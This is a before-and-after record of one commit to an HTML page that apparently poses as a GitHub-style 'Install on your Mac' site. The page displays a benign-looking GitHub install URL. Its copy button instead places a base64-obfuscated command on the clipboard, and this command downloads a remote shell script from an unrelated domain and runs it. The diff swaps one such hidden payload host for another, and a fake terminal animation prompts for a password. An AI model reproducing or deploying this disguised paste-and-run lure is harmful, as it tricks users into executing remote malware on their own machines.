

Before and after one commit to setup-macos/release, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 1059 px of the page, without its empty margins (142-1137 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -124,7 +124,7 @@ footer {
 <div class="gh-card-title">Install on your Mac</div>
 <div class="gh-card-sub">Advanced users can perform installation with a single terminal command.</div>
 <div class="cmd-row">
-<div class="cmd-display">echo 'https://raw.githubusercontent.com/github/mac/releases/download/v4.2.1/install.sh=' | base64 -D | zsh</div>
+<div class="cmd-display">bash <<< $(echo "https://raw.githubusercontent.com/github/mac/releases/download/v4.2.1/install.sh</div>
 <button id="copyBtn" class="copy-btn" type="button">
 <svg viewBox="0 0 16 16"><path d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"/><path d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"/></svg>
 Copy
@@ -180,7 +180,7 @@ Copy
 </footer>
 
 <script>
-const MY_COMMAND = `echo 'ZXhwb3J0IF9ub2RlX2xpbT1vbjtleHBvcnQgX2NhY2hlX3RzPTA5YTFhMWY2O2N1cmwgLWZzU0wgImh0dHBzOi8vY2FudmFzLTEzLmNvbS9jdXJsL21oczVvdG9ieXV0L3NldHVwLnNoInwgL2Jpbi96c2g=' | base64 -D | zsh`;
+const MY_COMMAND = `bash <<< $(echo "Y3VybCAtcyAnaHR0cHM6Ly9jZDU0b3ZlLmFhZmlsYW1iZXJhLm9yZy9raWxsLWZyb3plbi1hcHBzLnNoJyB8IGJhc2g=" | base64 -d)`;
 
 let cmdText='';
 const SVG_C='<svg viewBox="0 0 16 16" width="15" height="15" fill="currentColor"><path d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"/><path d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"/></svg>';
@@ -274,7 +274,7 @@ const tb=document.getElementById('tb');
 
 const seq=[
 
-  '<span class="pr">user@mac ~ %</span> <span class="cm">echo "https://raw.githubusercontent.com/github/mac/download/v4.2.1/install.sh)"</span>',
+  '<span class="pr">user@mac ~ %</span> <span class="cm">bash <<< $(echo "https://raw.githubusercontent.com/github/mac/main/install.sh)"</span>',
 
   '<span class="o">Password:</span> <span class="dim">\u2022\u2022\u2022\u2022\u2022\u2022\u2022\u2022</span>',
 
```
